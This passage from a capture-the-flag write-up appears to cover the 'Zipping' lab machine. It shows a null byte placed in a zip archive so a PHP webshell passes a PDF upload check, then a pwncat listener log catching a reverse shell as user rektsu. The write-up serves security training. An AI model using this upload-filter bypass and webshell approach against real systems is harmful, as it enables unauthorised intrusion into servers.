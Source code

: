 ![imhex-add-null-byte](./images/imhex-add-null-byte.png "Add null bytes using imhex")

Now when I run strings on the file, the # is replaced

```bash
> strings rce.zip
webshell.php
.pdfUT
...snip...
webshell.php
.pdfUT
```

Upon uploading the malicious archive, the application returns a link to view the decompressed file, which, in reality, acts as a webshell payload.

![upload-php-webshell](./images/upload-php-webshell.png "Upload PHP Webshell")

navigating to `/upload/<md5sum>/webshell.php` gives a shell as `rektsu`.

```bash
> pc -lp 9005
[23:32:21] Welcome to pwncat 🐈!                                                                    __main__.py:164
[23:48:29] received connection from 10.129.66.225:45182                                                  bind.py:84
[23:48:30] 0.0.0.0:9005: upgrading from /usr/bin/dash to /usr/bin/bash                               manager.py:957
[23:48:31] 10.129.66.225:45182: registered new host w/ db                                            manager.py:957
(local) pwncat$
(remote) rektsu@zipping:/$ id
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)
```
